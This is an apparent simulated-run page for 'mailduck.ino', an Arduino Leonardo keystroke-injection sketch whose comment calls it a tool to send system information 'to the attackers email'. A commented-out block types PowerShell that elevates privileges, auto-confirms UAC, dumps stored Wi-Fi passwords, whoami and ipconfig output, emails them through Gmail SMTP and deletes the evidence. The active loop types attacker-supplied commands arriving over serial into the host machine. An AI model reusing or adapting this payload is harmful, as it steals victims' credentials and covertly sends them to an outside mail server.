
Simulated run of this sketch. Board: Arduino Leonardo, built with avr-gcc and run on an emulated ATmega32U4. On the bench: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial monitor. Dashed ring = blinking. The inputs (shaded band) are chosen by the test bench; at power-on: A2 (Added_a_pushbutton_at_pin) HIGH.

Above: at 1.6 s.
1.7 s: "cmd" received over the second serial link
4.7 s: "prt" received over the second serial link
At 4.8 s:

At 5.9 s:

7.7 s: "wrt" received over the second serial link
Timing chart, 0 to 16.7 s (numbered marks = the images above; inputs shaded):


Measured:
- by itself, pin 2 (added_a_LED_for_output): repeats every 0.60 s: HIGH 0.30 s, LOW 0.30 s

The sketch:

mailduck.ino
```cpp
/*
 * Created by ryspom, to get valuable system information and send it back to the attackers email.
 * It should work with windows 7, but it is only tested on windows 10 machines(works perfect!)
 */
#include "Keyboard.h"

void typeKey(int key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}

void command(char command[])
{
  Keyboard.print(command);
  typeKey(KEY_RETURN);
}

void openWindowsMenu(){
  Keyboard.press(KEY_LEFT_CTRL);
  delay(80);
  Keyboard.press(KEY_ESC);
  delay(80);
  Keyboard.releaseAll();
  delay(1000);  // wait for quick windows menu to load
}

void twoKeyCombination(char key1[],char key2[]){
  Keyboard.press(key1);
  delay(50);
  Keyboard.press(key2);
  delay(50);
  Keyboard.releaseAll();
}

void threeKeyCombination(char key1[],char key2[], char key3[]){
  Keyboard.press(key1);
  delay(50);
  Keyboard.press(key2);
  delay(50);
  Keyboard.press(key3);
  delay(50);
  Keyboard.releaseAll();
}

void moveWindowOffScreen(){
    //enter the window manipulation menu
    Keyboard.press(KEY_LEFT_ALT);
    delay(80);
    Keyboard.write(0x20);  // ascii code for space bar. Not a modifier key, so we use .write()
    delay(80);
    Keyboard.releaseAll();

    // choose M(stands for Move) and use arrows to move the CMD window off screen
    Keyboard.write('m');  // NOTE: there is no need for pressing the Return key. By pressing "M", the option is automatically selected
    delay(100);  // wait for the window to enter "move" mode
    Keyboard.press(KEY_LEFT_ARROW);
    delay(4000);   //  we want enough delay for the window to go off screen
    Keyboard.releaseAll();
    typeKey(KEY_RETURN);
    delay(300);
}

void blinkLed(){
  digitalWrite(2,HIGH);
  delay(300);
  digitalWrite(2,LOW);
  delay(300);
}

/* Init function */
void setup()
{
  pinMode(A2, INPUT); // Added a pushbutton at pin A2(connected to GND with 10KOhm pulldown resistor and VCC)
  pinMode(2,OUTPUT);  // added a LED for output
  Serial1.begin(115200);  // Serial1 MUST be used(instead of Serial. This is a leonardo specific requirement)
  Serial.begin(115200);  // Debug Serial to be used from PC connected with usb cable

  if(digitalRead(A2)==LOW){  // if the key is pressed, the value is HIGH and the script doesnt run!
    // Begining the Keyboard stream
    /*
    Keyboard.begin();
    delay(2000);
    int guiKey1 = 131;  // Library code for GUI key(windows/osx button)
    int guiKey2 = 114; // Ascii code for r
    twoKeyCombination(guiKey1,guiKey2);  // open "run" dialog
    command("powershell Start-Process powershell -Verb runAs");
    delay(1500);  // wait for the powershell to open
    Keyboard.press(KEY_LEFT_ALT);  // reply yes to User Account Control Screen
    Keyboard.press('y');
    Keyboard.releaseAll();
    delay(300);
    typeKey(KEY_RETURN);
    delay(2000);  // wait untill the system recognises y is not a command, or until powershell opens
    //moveWindowOffScreen();
    command("$SMTPServer = 'smtp.gmail.com'");
    command("$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)");
    command("$SMTPInfo.EnableSsl = $true");
    command("$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUR_EMAIL_USERNAME', 'YOUR_EMAIL_PASSWORD');");
    command("$ReportEmail = New-Object System.Net.Mail.MailMessage");
    command("$ReportEmail.From = 'YOUR_EMAIL_ADDRESS'");
    command("$ReportEmail.To.Add(RECIPIENTS_EMAIL_ADDRESS')");
    command("clear");
    twoKeyCombination(KEY_LEFT_ALT,KEY_F7);  // cmd and powershell history(commands) is erased with Alt+F7
    command("$ReportEmail.Subject = 'Duck Machine Report'");
    command("$ReportEmail.Body = 'Duck Email Successfully Sent from Rubber-Duckied PC!Check the attachments for system data/info.'");
    command("echo \"This is a file automatically generated on the target pc by the ducky script.\" > reportfile.txt");              // signle > because we do not want to append, we want to create the file
    command("echo \"whoami results:\" >> reportfile.txt");
    command("whoami >> reportfile.txt");
    command("echo \"WIFI PASSWORDS!\" >> reportfile.txt");
    command("(netsh wlan show profiles) | Select-String \"\\:(.+)$\" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=\"$name\" key=clear)}  | Select-String \"Key Content\\W+\\:(.+)$\" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize >> reportfile.txt");
    //THE ABOVE ONE-LINER was found on https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---Data-Exfiltration---Backdoor
    command("echo \"ipconfig results\" >> reportfile.txt");
    command("ipconfig >> reportfile.txt");
    command("$ReportEmail.Attachments.Add('reportfile.txt')");   // dump every useful info in that file and attach it to the email
    command("$SMTPInfo.Send($ReportEmail)");
    command("del reportfile.txt");  // hide our tracks a bit, after powershell has exited -> email has been sent(can cause trouble)
    command("exit");
    */
    Keyboard.end();
  }
}

/* Unused endless loop */
void loop(){
  blinkLed();
    if (Serial1.available() > 0) {
    String serialstring = Serial1.readString();  // it can be 63 characters long MAX!
    String typeOfCommand = serialstring.substring(0,3);  // the first four letters indicate the type of the command(e.g. "wrt=")
    String commandContent = serialstring.substring(4);  // all the letters after the fourth
    char commandContentChar[commandContent.length()];
    commandContent.toCharArray(commandContentChar,(commandContent.length()+1));  // doesnt return anything, just copies the result in the first argument
    int commandContentInt = commandContent.toInt();  // convert string to integer(long)
    Serial.println("----------------------New Command----------------------");
    Serial.print("serialstring=");
    Serial.println(serialstring);
    Serial.print("typeofcommand=");
    Serial.println(typeOfCommand);
    Serial.print("commandContent=");
    Serial.println(commandContent);
    Serial.print("commandContentChar=");
    Serial.println(commandContentChar);
    Serial.print("commandContentInt=");
    Serial.println(commandContentInt);
    if(typeOfCommand=="cmd"){       // command mode. Types a command and then presses the Return key
      Keyboard.print(commandContent);
      typeKey(KEY_RETURN);
    }
    else if(typeOfCommand=="prt"){  // print mode. Just prints the output wherever the cursor's at.
      Keyboard.print(commandContent);
    }
    else if(typeOfCommand=="wrt"){  // write mode. Writes a single key, both a modifier and a letter/symbol one.
      Keyboard.write(commandContentChar);
    }
    else if(typeOfCommand=="prs"){  // press mode. Presses a modifier Key(and does not release it until an rls comes.
      Keyboard.press(commandContentInt);     // accepts modifier key codes(see mailduck's readme.md) and ASCII codes
    }
    else if(typeOfCommand=="pr1"){  // press-and-then-release mode. Presses a modifier Key(and does not release it until an rls comes.
      Keyboard.press(commandContentInt);     // accepts modifier key codes(see mailduck's readme.md) and ASCII codes
      delay(100);
      Keyboard.release(commandContentInt);
    }
    else if(typeOfCommand=="rls"){  // release mode. Releases all the pressed modifier keys.
      Keyboard.releaseAll();
    }
    else if(typeOfCommand=="dbg"){
      //do nothing. "dbg" stands for Debug and it is to be used for debug of the nodeMCU through an USB
    }
    else{
      Keyboard.print(serialstring);
    }
  }
}
```
